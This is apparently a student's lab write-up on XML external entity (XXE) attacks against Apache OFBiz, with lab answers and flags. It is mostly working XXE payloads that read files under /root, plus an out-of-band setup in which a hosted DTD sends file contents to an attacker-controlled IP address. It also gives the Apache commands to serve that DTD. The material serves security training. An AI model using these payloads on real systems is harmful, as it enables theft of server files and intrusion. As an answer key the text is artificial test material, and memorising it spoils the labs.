



# **XML External Entities**

## **Case Study: Apache OFBiz XXE Vulnerability**

### **Labs**
Start the OFBiz VM and verify you can access the Web Tools Main Page. What password is listed on this page?

Answer - ofbiz

### **Labs**
Exploit the application to get the contents of /root/flag.txt.

Answer - OS{xxeFlagOne}

Payload:
```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///root/flag.txt">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0002" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```

   
  

### **Labs**
Exploit the application to get the contents of /root/error.txt.

Answer - OS{IAmError}

Payload:
```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///root/error.txt">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0002" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```

### **Labs**
#### Out-of-Band Exploitation
Exploit the application to get the contents of /root/oob.txt.

Answer - OS{xxeOOB}

- Create and host your own DTD file.      
- Create a file named external.dtd with the following content.        
- Place this on Apache webroot at /var/www/html, and start our Apache server.     

```
<!ENTITY % content SYSTEM "file:///root/oob.txt">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.245/out?%content;'>" >
```


```
cd /var/www/html/
sudo mousepad external.dtd
sudo systemctl start apache2
```

Payload:
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.245/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

